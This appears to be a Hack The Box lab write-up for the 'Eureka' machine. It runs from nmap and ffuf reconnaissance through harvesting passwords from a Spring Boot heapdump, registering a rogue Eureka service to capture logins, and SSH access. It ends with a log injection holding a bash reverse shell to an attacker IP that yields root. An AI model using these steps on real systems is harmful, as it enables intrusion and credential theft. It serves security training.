 https://github.com/Artemisxxx37/htb-writeups/tree/main/eureka

nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-02 11:16 EDT
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 18.04% done; ETC: 11:18 (0:01:40 remaining)
Warning: 10.129.232.59 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.232.59
Host is up (0.024s latency).
Not shown: 65460 closed tcp ports (reset), 72 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d6:b2:10:42:32:35:4d:c9:ae:bd:3f:1f:58:65:ce:49 (RSA)
|   256 90:11:9d:67:b6:f6:64:d4:df:7f:ed:4a:90:2e:6d:7b (ECDSA)
|_  256 94:37:d3:42:95:5d:ad:f7:79:73:a6:37:94:45:ad:47 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://furni.htb/
8761/tcp open  http    Apache Tomcat (language: en)
|_http-title: Site doesn't have a title.
| http-auth: 
| HTTP/1.1 401 \x0D
|_  Basic realm=Realm
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   27.03 ms 10.10.14.1
2   27.32 ms 10.129.232.59

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 536.12 seconds







# It is java page, that's why we will use Java-Spring-Boot.txt.
ffuf -u http://furni.htb/FUZZ  -w /usr/share/wordlists/seclists/Discovery/Web-Content/Programming-Language-Specific/Java-Spring-Boot.txt

#shows a lot of exposed files in /actuator/* directory.

# Download
wget http://furni.htb/actuator/heapdump

# Using strings and grep we got password of user oscar
strings heapdump |grep "password="

password=0sc@r190_S0l!dP@sswd, user=oscar190

# We also get another username password
strings heapdump |grep PWD

http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/!

-----------------
# SSH Port Forward 8761 to yourself
ssh -L 8761:localhost:8761 oscar190@$ip

3306 = mysql















We couldn't crack the passwords.

---------------------------
# Login
http://localhost:8761


I run this first but didn't work.
curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@127.0.0.1:8761/eureka/apps/USER-MANAGEMENT-SERVICE -H 'Content-Type: application/json' -d '{
"instance": {
"instanceId": "USER-MANAGEMENT-SERVICE",
"hostName": "10.10.14.98",
"app": "USER-MANAGEMENT-SERVICE",
"ipAddr": "10.10.14.98",
"vipAddress": "USER-MANAGEMENT-SERVICE",
"secureVipAddress": "USER-MANAGEMENT-SERVICE",
"status": "UP",
"port": { "$": 8081, "@enabled": "true" },
"dataCenterInfo": {
"@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
"name": "MyOwn"
}
}
}'
So I put 2 in USER-MANAGEMENT-SERVICE and run again and it worked. I can't explain why.
curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@127.0.0.1:8761/eureka/apps/USER-MANAGEMENT-SERVICE2 -H 'Content-Type: application/json' -d '{"instance": {"instanceId": "USER-MANAGEMENT-SERVICE2","hostName": "10.10.14.98","app": "USER-MANAGEMENT-SERVICE2","ipAddr": "10.10.14.98","vipAddress": "USER-MANAGEMENT-SERVICE2","secureVipAddress": "USER-MANAGEMENT-SERVICE2","status": "UP","port": { "$": 8081, "@enabled": "true" },"dataCenterInfo": {"@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name": "MyOwn"}}}'
![image](https://github.com/user-attachments/assets/aac0cfa4-5f6b-4cb1-8ffe-03d5108cac7d)
![image](https://github.com/user-attachments/assets/fc1f9ce3-1f7c-47f2-b313-8b6e5577df5b)


username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve

# Url decode
username=miranda.wise@furni.htb&password=IL!veT0Be&BeT0L0ve

# I tried with 'miranda.wise', it didn't work.
sshpass -p 'IL!veT0Be&BeT0L0ve' ssh -o StrictHostKeyChecking=no miranda.wise@$ip

![image](https://github.com/user-attachments/assets/d657f724-aac4-4b18-ac92-c04f4663ea14)


# The correct username is 'miranda-wise'
sshpass -p 'IL!veT0Be&BeT0L0ve' ssh -o StrictHostKeyChecking=no miranda-wise@$ip

rm -f /var/www/web/user-management-service/log/application.log;echo 'HTTP Status: x[$(/bin/bash -i >& /dev/tcp/10.10.14.98/9001 0>&1)]' >/var/www/web/user-management-service/log/application.log

# Wait for two minutes for rev shell.
We are root!


![image](https://github.com/user-attachments/assets/48d817fc-9d90-4fc3-8844-9c6bc7d08489)
